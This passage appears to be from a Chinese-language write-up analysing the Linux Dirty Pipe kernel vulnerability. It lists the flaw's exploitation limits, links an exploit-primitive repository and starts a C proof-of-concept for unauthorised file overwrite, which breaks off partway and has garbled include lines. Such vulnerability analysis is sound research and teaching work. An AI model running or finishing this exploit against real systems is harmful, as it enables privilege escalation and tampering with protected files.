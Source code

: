 根据漏洞原理及公开分析，Dirty Pipe 的利用存在以下核心限制：

*   **文件需可读** ：攻击者必须对目标文件拥有**读权限** 。`splice` 系统调用在将文件内容写入管道时，会检查文件的可读性。若文件不可读，漏洞无法触发
*   **单页覆盖限制** ：每次写入最多覆盖**一页大小（通常为 4KB）** ，且无法扩展文件长度。例如，若目标文件为 8KB，攻击者只能修改前 4KB 或后 4KB 中的某一页，无法追加内容
*   **修改临时性** ：漏洞仅篡改内存中的 **Page Cache** ，不会同步到磁盘。系统重启、文件重新打开或手动清除缓存后，修改会丢失

当然这些限制如果结合其他内核利用完全可以绕过这些限制!!!  
参考链接:[veritas501/pipe-primitive: An exploit primitive in linux kernel inspired by DirtyPipe](elink@9e4K9s2c8@1M7s2y4Q4x3@1q4Q4x3V1k6Q4x3V1k6Y4K9i4c8Z5N6h3u0Q4x3X3g2U0L8$3#2Q4x3V1k6$3k6i4u0A6N6r3q4K6y4e0l9I4i4K6u0r3M7r3W2H3k6g2)9J5k6s2m8J5K9h3#2A6N6r3W2$3k6b7`.`.)

四、Dirty_pipe 漏洞复现与内核动态调试分析
==========================

Dirty_pipe 漏洞复现 - 文件越权写
-----------------------

测试 POC：

```
#define _GNU_SOURCE
#include #include #include #include #include #include #ifndef PAGE_SIZE
#define PAGE_SIZE 4096
#endif
 
static void prepare_pipe(int p[2])
{
    if (pipe(p)) {
        abort();
    }
 
    const unsigned pipe_size = fcntl(p[1], F_GETPIPE_SZ);
    static char buffer[4096];
 
    for (unsigned r = pipe_size; r > 0;) {
        unsigned n = r > sizeof(buffer) ? sizeof(buffer) : r;
        r -= write(p[1], buffer, n);
    }
 
    for (unsigned r = pipe_size; r > 0;) {//将管道清空
        unsigned n = r > sizeof(buffer) ? sizeof(buffer) : r;
        r -= read(p[0], buffer, n);
    }
}
 
int main(int argc, char **argv)
{
    if (argc != 4) return EXIT_FAILURE;
 
    const char *path = argv[1];
    loff_t offset = strtoul(argv[2], NULL, 0);
    const char *data = argv[3];
    size_t data_size = strlen(data);
 
 
    int fd = open(path, O_RDONLY);
    if (fd < 0) return EXIT_FAILURE;
 
    struct stat st;
    if (fstat(fd, &st) || offset > st.st_size ||
       (offset + data_size) > st.st_size) {
        return EXIT_FAILURE;
    }
 
    int p[2];
    prepare_pipe(p);
```